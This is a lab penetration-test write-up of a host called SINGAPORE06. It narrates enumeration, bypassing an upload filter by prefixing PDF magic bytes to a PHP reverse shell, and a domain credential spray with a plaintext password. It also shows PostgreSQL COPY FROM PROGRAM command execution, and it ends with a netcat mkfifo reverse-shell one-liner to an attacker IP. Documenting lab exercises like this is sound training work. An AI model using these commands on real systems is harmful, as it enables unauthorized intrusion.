# SINGAPORE06

## Enumeration

Host at `192.168.xxx.225`. Output from `nmap` scan report generated [here](./#network-enumeration):

```
Nmap scan report for 192.168.247.225
Host is up (0.052s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
8090/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/14%OT=21%CT=1%CU=42335%PV=Y%DS=4%DC=T%G=Y%TM=66BD
OS:28FE%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O
OS:1=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11N
OS:W7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
OS:=788D%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   51.05 ms 192.168.45.1
2   51.03 ms 192.168.45.254
3   51.90 ms 192.168.251.1
4   51.97 ms 192.168.247.225
```

### FTP

I try anonymous FTP connection but am rebuffed:

<figure><figcaption><p>No anonymous FTP</p></figcaption></figure>

I could not find any current exploits for vsftpd 3.0.3. Google does turn up [this purported backdoor](https://github.com/amdorj/vsftpd-3.0.3-infected/blob/master/amdorj\_vsftpd\_backdoor.rb) Metasploit module. In examining the code it looks like it is premised on signing in with an FTP user message containing "`USER roodkcab: \r\n`"

<figure><figcaption><p>Module code</p></figcaption></figure>

I tried this via Netcat but got `530 Permission denied`:

<figure><figcaption><p>Backdoor viability test</p></figcaption></figure>

### Port 80

The landing page at port 80 is just an nginx landing page:

<figure><figcaption><p>Landing page</p></figcaption></figure>

I run feroxbuster to see if there is something else set up but find nothing:

<figure><figcaption><p>Nothing turned up by feroxbuster</p></figcaption></figure>

### Port 8090

There is another nginx server here but I cannot access it:

<figure><figcaption><p>403 error on 8090</p></figcaption></figure>

I run `feroxbuster` and find some other directories but they are all still 403:

<figure><figcaption><p>Some more forbidden directories</p></figcaption></figure>

I spend some time looking into 403 bypass but did not find anything promising for this version of `nginx`. I decide to do some extra enumeration.

`feroxbuster` was having some issues with recursion due to the rate limit. Getting `403`s would cause it to back down. This is because I like to use the `--thorough` flag which sets several other flags including `--auto-tune`. The `--auto-tune` flag automatically imposes a rate limit when too many errors are received. To avoid this behavior I just manually set all of the flags `--thorough` sets except `--auto-tune`. I will run this scan against both the `/html` and `/backend` directories found at port 8090:


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -E -g -B -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -x @common_web_extensions.txt -u http://vm16.skylark:8090/backend -o p8090_backend_big.feroxbuster
```


The /`html` directory had nothing:

<figure><figcaption></figcaption></figure>

But in `/backend` I finally found something other than 403:

<figure><figcaption><p>Enumeration of backend directory</p></figcaption></figure>

I head to the `index.php` page and find a login portal:

<figure><figcaption><p>Login portal at index.php</p></figcaption></figure>

I try `admin:admin` and it works. Once logged in I can see an upload page:

<figure><figcaption><p>Upload portal</p></figcaption></figure>

This seems like a good way in.

## Foothold

### Malicious Upload

I start messing around with the upload page. It only takes PDFs:

<figure><figcaption><p>Screen when you attempt to upload something that is not a PDF</p></figcaption></figure>

<figure><figcaption><p>Success message upon uploading a PDF</p></figcaption></figure>

I start trying to come up with ways to disguise PHP as a PDF. First I try double extensions, then just uploading PHP with a `.pdf` extension, that kind of thing. Eventually I notice in BurpSuite that all successful PDF uploads have a some specific bytes in them at the beginning and end:

<figure><figcaption><p>Start of successful PDF upload captured in BurpSuite</p></figcaption></figure>

<figure><figcaption><p>End of successful PDF upload captured in BurpSuite</p></figcaption></figure>

I wonder if that is what the filter is checking for. I create a blank "PDF" which consists of just those characters and try uploading it. This works:

<figure><figcaption><p>Uploading a "blank PDF"</p></figcaption></figure>

Now I try changing the file extension to `.txt` but keeping just those characters to see if only the file content is being checked or if the file name/extension is also checked. This succeeds indicating all that matters is the presence of those bytes:

<figure><figcaption><p>Uploading a "blank PDF" with a different extension</p></figcaption></figure>

I can even view it as a normal `.txt` from my browser:

<figure><figcaption><p>Accessing uploaded txt file from browser</p></figcaption></figure>

#### Reverse Shell

With this now understood I decide to try my reverse shell again but with those bytes added to the front. I use [this](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php\_reverse\_shell.php) reverse PHP shell configured to reach out to my machine at port 135 (honestly this was a mistake because I forgot it was a Linux not Windows machine). When I try uploading it succeeds:

<figure><figcaption><p>Uploading the reverse shell</p></figcaption></figure>

When I attempt to access the file in my browser the shell launches:

<figure><figcaption><p>Launching the reverse shell</p></figcaption></figure>

User access achieved as `www-data`. I also learn the machine's hostname of `SINGAPORE06`.

## Privilege Escalation

### Manual Enumeration

One of the first things I notice when looking around the machine is that there is another PDF in the `/uploads` folder:

<figure><figcaption><p>PDF I did not upload. Other folder contents were from me working to gain access.</p></figcaption></figure>

I grab a copy of that for examination. Inside I find directions for connecting to RDWeb:

<figure><figcaption><p>Contents of downloaded PDF</p></figcaption></figure>

I believe this is talking about a [Remote Desktop Web Client](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-web-client-admin). This means that this is likely not about this machine but rather for one of the Windows targets:

* `192.168.xxx.220` (port 80)
* `AUSTIN02` (`192.168.xxx.221`) (ports 80, 443, **3387**, **10000**)
  * The last 2 ports seem most promising
* `192.168.xxx.226` (port 24680)
* `SYDENEY08`(`192.168.xxx.227`) (port 80)

I will need to enumerate each of them for a `/RDWeb` directory on any open HTTP ports.

#### Credential Spray

I also decide to spray the credential around the domain to see what I get:


```bash
cme smb hosts.txt -d 'SKYLARK' -u 'kiosk' -p 'XEwUS^9R2Gwt8O914' --shares && cme winrm hosts.txt -d 'SKYLARK' -u 'kiosk' -p 'XEwUS^9R2Gwt8O914'
```


<figure><figcaption><p>Results of credential spray</p></figcaption></figure>

I find read access to the `\Users` share on `AUSTIN02` and `\IPC$` on `HOUSTON01`. I also learn the name of one other machine in `PARIS03`. I at least now have confirmation on the hostnames of those machines.

### PEAS

In the meantime, I launch a winPEAS scan of the machine. Once I have retrieved the output and started examining it I find some potential credentials for a PostgreSQL database:

<figure><figcaption><p>PostgreSQL connection credentials</p></figcaption></figure>

### PostgreSQL

I can access the database from the command line with the psql command:


```bash
psql -d 'webapp' -h 'localhost' -p 5432 -U 'postgres' -W
```


At first I actually thought this was a false lead because there was not any useful information in the database. The only credentials I could find were admin:admin for getting into the web portal above.

I then realized I was focusing on the wrong thing and I should be trying to get code execution via the SQL interface since it was likely running as a different user.

#### Command Execution

I find [this tutorial](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5) which explains how to get code execution via PostgreSQL. I try it out and it works:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

<figure><figcaption><p>Executing a command via PostgreSQL</p></figcaption></figure>

My hunch was correct, the database is running in the context of a user `postgres`. Perhaps this user has different access from `www-data`. Since I have code execution I can use this to launch another shell by replacing the `id` command from the PoC with:

```bash
cd /tmp; rm -f g;mkfifo g;cat g|sh -i 2>&1|nc 192.168.45.157 8443 >g;rm -f g;
```

